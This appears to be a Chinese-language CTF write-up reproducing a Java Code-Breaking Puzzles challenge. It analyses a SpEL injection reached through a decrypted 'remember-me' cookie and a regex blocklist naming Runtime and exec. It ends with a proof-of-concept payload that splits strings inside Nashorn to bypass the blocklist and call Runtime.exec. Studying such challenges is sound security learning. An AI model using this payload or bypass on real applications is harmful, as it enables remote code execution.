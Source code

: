 # README

## 前言

是几年前P神Code-Breaking Puzzles的Java题，今天抽了个时间来复现了一下。

## 分析

漏洞很容易找了，首先就是`remember-me`解码出来username，然后调用`getAdvanceValue`

```java
    public String admin(@CookieValue(value = "remember-me",required = false) String rememberMeValue, HttpSession session, Model model) {
        if (rememberMeValue != null && !rememberMeValue.equals("")) {
            String username = this.userConfig.decryptRememberMe(rememberMeValue);
            if (username != null) {
                session.setAttribute("username", username);
            }
        }

        Object username = session.getAttribute("username");
        if (username != null && !username.toString().equals("")) {
            model.addAttribute("name", this.getAdvanceValue(username.toString()));
            return "hello";
        } else {
            return "redirect:/login";
        }
    }
```

```java
    private String getAdvanceValue(String val) {
        String[] var2 = this.keyworkProperties.getBlacklist();
        int var3 = var2.length;

        for(int var4 = 0; var4 < var3; ++var4) {
            String keyword = var2[var4];
            Matcher matcher = Pattern.compile(keyword, 34).matcher(val);
            if (matcher.find()) {
                throw new HttpClientErrorException(HttpStatus.FORBIDDEN);
            }
        }

        ParserContext parserContext = new TemplateParserContext();
        Expression exp = this.parser.parseExpression(val, parserContext);
        SmallEvaluationContext evaluationContext = new SmallEvaluationContext();
        return exp.getValue(evaluationContext).toString();
    }
```

很明显的SpEL注入，但是有个blacklist：

```java
keywords:
  blacklist:
    - java.+lang
    - Runtime
    - exec.*\(
```

很多种绕过办法了。。。随便绕了

主要的就是这个`this.parser.parseExpression(val, parserContext);`，它带了第二个参数，所以`val`外面要包一层`#{}`才可以。

随便一个POC：

```java
        String exp = "#{T(javax.script.ScriptEngineManager).newInstance().getEngineByName(\"nashorn\").eval(\"s=[3];s[0]='cmd';s[1]='/C';s[2]='calc';java.la\"+\"ng.Run\"+\"time.getRu\"+\"ntime().ex\"+\"ec(s);\")}";
        System.out.println(Encryptor.encrypt("c0dehack1nghere1","0123456789abcdef",exp));

```

